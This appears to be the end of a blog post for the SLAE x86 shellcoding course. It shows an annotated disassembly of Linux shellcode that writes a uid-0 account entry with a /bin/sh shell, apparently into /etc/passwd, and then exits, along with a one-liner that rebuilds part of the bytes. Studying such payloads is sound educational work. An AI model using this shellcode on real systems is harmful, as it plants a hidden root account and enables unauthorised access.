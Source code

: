 ```x86asm



00000025  93                xchg eax,ebx            ; ebx = ptr to file
00000026  E826000000        call 0x51               ; call label1 


0000002B  757365726E616D653A417A796477666F6967425472733A303A303A3A2F3A2F62696E2F73680A
; (ascii) username:AzydwfoigBTrs:0:0::/:/bin/sh

label1:             
; rebuilt with `echo -n "`python2 -c 'print "\x90"*81'`\x59\x8b\x51\xfc\x61\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel -`
00000051  59                pop ecx             ; ptr to 0x2b
00000052  8B51FC            mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
00000055  6A04              push byte +0x4      ; 
00000057  58                pop eax             ; write()
00000058  CD80              int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);



0000005A  6A01              push byte +0x1      
0000005C  58                pop eax             
0000005D  CD80              int 0x80            ; exit()
```

# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
